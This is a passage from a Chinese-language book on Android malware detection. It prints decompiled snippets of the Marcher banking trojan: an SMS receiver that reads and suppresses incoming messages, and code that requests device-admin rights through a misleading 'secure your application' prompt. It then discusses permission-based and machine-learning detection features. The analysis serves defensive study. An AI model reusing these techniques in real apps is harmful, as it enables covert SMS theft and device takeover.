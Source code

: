 ```
      new f(context).a(context, smsMessageArr).a(this, context, smsMessageArr);
    }
  }

  public void onReceive(Context context, Intent intent) {
    a(context, intent);
    abortBroadcast();
  }
}
```

*列表 9-4：显示 Marcher 创建要发送的 SMS 消息的代码片段*

为了访问传入的 SMS 消息，恶意软件使用与合法软件相同的 API。它注册了一个广播接收器，每当 SMS 到达系统时，操作系统都会调用它。然后，恶意软件借助 `SmsMessage.createFromPdu` 方法访问 SMS 内容。唯一的困难是，恶意软件代码有些混淆。它不是直接调用 `SmsMessage.createFromPdu`，而是通过 `SmsMessage.class.getMethod` 反射，并通过最小化字符串混淆，将 `createFromPdu` 写成 `cre_ateF_romP_du`。

在 列表 9-5 中，Marcher 尝试成为被感染设备的管理员，以便它可以随意更改与设备管理相关的设置。

```
public class AdminActivity extends Activity {
  private DevicePolicyManager a;
  private ComponentName b;

  private void a() {
    f.a("AdminActivity: get Device Admin");
    try {
      this.a = (DevicePolicyManager) getSystemService("device_policy");
      this.b = new ComponentName(this, AdminRightsReceiver.class);
      if (!this.a.isAdminActive(this.b)) {
        Log.d("TAG", "try to become admin");
        Intent intent = new Intent("android.app.action.ADD_DEVICE_ADMIN");
        intent.putExtra("android.app.extra.DEVICE_ADMIN", this.b);
        intent.putExtra("android.app.extra.ADD_EXPLANATION", 
          "Click on Activate button to secure your application.");
        startActivityForResult(intent, 100);
        return;
      }
      Log.d("TAG", "already admin");
    } catch (Exception e) {
      e.printStackTrace();
    }
  }
}
```

*列表 9-5：显示 Marcher 尝试成为设备管理员的代码片段*

再次强调，恶意软件使用的 API 与合法软件在此目的下使用的完全相同。它启动了一个类型为 `ADD_DEVICE_ADMIN` 的活动，打开了系统对话框，以便授予该应用所需的权限。如果用户按照对话框中的指示操作，恶意软件将获得设备管理员权限。其指挥控制服务器随后将能够向其发送命令，甚至能够设置或重置设备密码，并将用户锁定在自己的设备之外。

### **接下来**

机器学习方法在检测 ABT（恶意广告软件）方面表现非常出色。在本章中，我们观察到几乎所有的 ABT 都广泛使用与短信相关的权限。其他在 ABT 中经常出现的请求权限，如 `RECEIVE_BOOT_COMPLETE`，也应该使应用程序变得高度可疑。除了权限之外，基于疑似评分、疑似排名和特征聚类的高级特征在区分 ABT 和良性软件方面也非常重要。这些发现表明，先进特征可能更难被对手逆向工程。

我们的下一章将重点介绍勒索软件应用程序。我们将介绍这一类恶意软件对 Android 用户构成的风险，以及它依赖于哪些技术来操控 Android 设备上的数据访问和控制。

[*OceanofPDF.com*](https://oceanofpdf.com)
